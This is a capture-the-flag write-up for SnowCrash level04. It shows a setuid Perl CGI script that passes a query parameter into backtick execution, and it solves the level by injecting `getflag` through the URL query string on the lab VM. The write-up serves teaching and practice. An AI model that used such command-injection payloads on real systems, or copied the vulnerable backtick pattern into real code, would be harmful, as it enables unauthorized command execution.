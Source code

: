 # Level04

## Research

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
- We can see 2 things:

1. `localhost:4747` may be used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/

2. The print uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm

- How to send a parameter to CGI?
`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`
https://www.perl.com/article/perl-and-cgi/



## Solution

Steps:
  - Open a web browser and connect to the VM IP address on port 4747
  ```BASH
  http://[Snowcrash_VM_address]:4747/
  ```
  - Use the query string to pass the getflag command. We need to send \`getflag\` so that it will be executed (try echo \`getflag\` in terminal for example). `getflag` as a parameter will only print getflag.
  ``` bash
  http://[Snowcrash_VM_address]:4747/?x=`getflag`
  ```

 
The program returns the token directly, so we can go to level05 with `su level05`.
